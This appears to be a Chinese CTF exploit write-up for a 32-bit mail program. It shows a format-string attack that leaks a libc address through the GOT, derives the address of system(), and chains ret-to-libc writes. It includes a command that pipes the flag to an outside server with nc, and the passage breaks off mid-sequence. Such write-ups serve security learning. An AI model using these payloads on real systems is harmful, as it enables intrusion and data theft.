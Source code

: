 找到栈上保存的ebp 就可以推测出栈地址，左侧一栏就是地址，利用这些地址就可以精确地修改函数返回地址。

然后需要利用程序中的输出函数(0x080491A2，即上面的print_out，在ida里地址就是0x080491A2)，打印出GOT表中某个libc函数的地址，比如这里fork()在GOT 表中的地址为0x804a9fc，其他任意一个libc函数都可，它只是用于定位的。

fork()在GOT 表中的地址为0x804a9fc，确定了fork()在GOT 表中的地址，现在需要打印出这个地址里的内容，需要构造ret-to-libc:

首先需要将返回地址覆盖成print_out函数地址，然后还需要构造print_out函数调用的参数，第一个参数为fd，第二个参数为fork@GOT的地址，print_out会把这个地址里的内容当成字符串输出，得到后还需要用二进制查看器就能看到原始的地址数据。

在该程序的场景中，用户可重复(有限次)控制调用print_out打印用户可控格式化字符串。依次让print_out函数以如下格式化字符串为参赛进行调用，即可构造出所需ret-to-libc，在最后返回时进入构造的ret-to-libc流程打印出fork地址里的内容：

"%36204x%21$hn"

"%35403x%33$hn"        # 修改返回地址为0x8a4b，因为返回地址的高位本来就是0x0804 所以不用改

​                                          #0x08048a4b 这个地址是一句call print_out，这里不直接把返回地址填成print_out

​                                                #的入口是为了利用栈上之前压入的参数fd，作为print_out函数的第一个参数

"%36212x%21$hn"		#这里构造print_out 的第二个参数，直接填入fork@GOT 地址，print_out会把该地址内容当成字符串输出

"%43516x%33$hn"		#0xa9fc

"%36214x%21$hn" 

"%2052x%33$hn"		#0x0804

\#上述一系列print_out完成调用后，在这里退出之后会进到print_out 中，把fork在libc中的地址当成字符输出，用二进制查看器就能看到原始的地址数据，然后可以看到fork的地址为0xf7527320

然后需要分别确定fork和system函数在lib.so中的偏移，题目中提供了lib.so，IDA打开，双击左侧函数列表中的fork，即可调到fork入口，该地址即是fork在libc.so中的偏移。

fork在libc.so中的偏移为0xb7320

system在libc.so中的偏移为0x3ea70

于是可以算出system在内存中的地址为0xf74aea70



上面只是通过ret-to-libc获取了fork在内存的地址进而推算出system在内存的地址。下一步就要再次构造一个ret-to-libc调用system来完成命令的执行。

在构造实际的ret-to-libc之前还有一个问题，system()的参数怎么弄？

这个程序并没有使用重定向，所以直接system("/bin/sh")是没用的，不能得到一个可交互shell，那么可以执行system("cat flag|nc 202.120.7.104 1337")来将flag发送到我们自己的服务器上。

参数字符串需要先在内存的某个地方构造好，然后把字符串的地址当成参数传进去。但是这个程序中并没有全局的字符串变量，全局变量只有邮件数目(0x0804AA60)和一个指向实际邮件的指针数组(0x0804AA40)，而实际邮件中的内容都是保存在堆上，无法准确定位。

但是我们拥有把任意内存地址修改成任意值的能力，也就是说我们可以修改邮件数量。而程序在判断邮箱是否满的时候使用的是"==8"而不是">=8"，所以我们可以把邮件数量改成非常大，大到在新建邮件的时候访问邮件数组越界，且正好把邮件内容在堆上的地址写到栈上一个特定地址中，而邮件的内容中填上需要传递给system 的字符串参数，这样就可以在不知道字符串确切地址的情况下把其地址写到栈上，之后就可以当成参数传给system()。然后就可以构造实际的ret-to-libc攻击了，整个步骤比较复杂，中间还需要把邮件数清零以破除8封邮件的限制



依次让print_out函数以如下格式化字符串为参赛进行调用，即可构造出所需ret-to-libc，



"%36316x%21$hn"

